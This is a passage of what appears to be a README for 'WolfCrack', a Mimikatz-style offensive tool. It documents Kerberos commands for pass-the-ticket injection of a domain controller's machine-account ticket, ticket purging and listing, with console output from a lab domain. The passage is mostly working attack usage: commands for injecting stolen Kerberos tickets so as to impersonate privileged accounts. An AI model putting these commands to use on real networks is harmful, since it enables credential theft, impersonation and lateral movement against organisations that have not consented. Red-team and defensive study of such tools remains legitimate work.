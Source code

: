 The tickets name is in the following format: username@service-domainName.kirbi
  
### ptt
This feature lets you take a kirbi file (ticket file) and inject it to your own session.
##### Arguments:
1) path to the kirbi file \[**required**\]
```
WolfCrack # kerberos::ptt "C:\Users\Administrator\Desktop\Tickets\WEBERDC$@DNS-WEBER.COM.kirbi"
[*] Successfuly impersonated
[*] Successfully Imported The Ticket
[*] Successfully reverted

WolfCrack # kerberos::klist

Current LogonId is 0:0x48d1f

Cached Tickets: (1)

#0>	Client: WEBERDC$ @ WEBER.COM
	Server: DNS/weberdc.weber.com @ WEBER.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize 
	Start Time: 10/30/2020 3:58:51 (local)
	End Time:   10/30/2020 12:58:51 (local)
	Renew Time: 11/6/2020 2:58:51 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: 

WolfCrack # 
```
As you can see it takes the ticket inside the kirbi file and inject it to our current session.

### purge
this feature lets you clear all your kerberos tickets of your current session.
```
WolfCrack # kerberos::purge
[*] Successfuly impersonated
[*] Tickets Successfully Purged!!
[*] Successfully reverted

WolfCrack # kerberos::klist

Current LogonId is 0:0x48d1f

Cached Tickets: (0)
```
As you can see now we have 0 tickets in our session.

### klist
this just run the windows command klist, I did this because it was not comfortable to see your own ticket with the ``` WolfCrack # kerberos::list ``` command because it has many tickets of many users.
```
WolfCrack # kerberos::klist

Current LogonId is 0:0x48d1f

Cached Tickets: (1)

#0>	Client: ansible @ WEBER.COM
	Server: krbtgt/WEBER.COM @ WEBER.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
```